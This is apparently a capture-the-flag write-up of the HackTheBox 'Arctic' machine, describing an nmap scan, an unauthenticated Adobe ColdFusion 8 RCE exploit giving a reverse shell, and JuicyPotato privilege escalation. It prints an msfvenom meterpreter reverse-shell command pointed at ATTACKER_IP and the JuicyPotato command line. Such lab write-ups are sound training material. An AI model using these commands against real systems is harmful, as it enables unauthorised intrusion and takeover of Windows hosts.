







## HackTheBox -  Arctic

I started with nmap to see which ports are open.

`nmap -sC -sV -sC <IP>`

First I took a closer look at the web server.
Enumeration with FFUF was not necessary here, because we have `directory listing`.

I looked around further and discovered an __Adobe Coldfusion 8__ login.

Interesting, I looked to see if the version was vulnerable and found an Unauthenticated [RCE Exploit](https://www.exploit-db.com/exploits/50057).

I set the correct values in the exploit script, ran it and got a reverse shell on my netcat listener as user `tolis`.

I went to the desktop and got the user flag.

# PrivEsc

I enumerated the system a bit and tried a few exploits.

Finally it was the `JuicyPotato` exploit which worked.

For this attack we need a `SeImpersonatePrivilege` or a `SeAssignPrimaryTokenPrivilege` on `enabled`.

Whether this is the case can be seen with the command `whoami /priv`.

I created a `reverse exe` which is then executed by the exploit and gives us a new privileged shell.

`msfvenom -p windows/meterpreter_reverse_tcp LHOST=<ATTACKER_IP> LPORT=5555 -f exe > revPE.exe`

With `certutil.exe` I loaded the reverse exe and the `JuicyPotato` exploit to the machine.

I executed the exploit...

`JuicyPotato.exe -l 1333 -p C:\Users\tolis\AppData\Local\Temp\revPE.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}`

...and got my reverse shell on the other window.

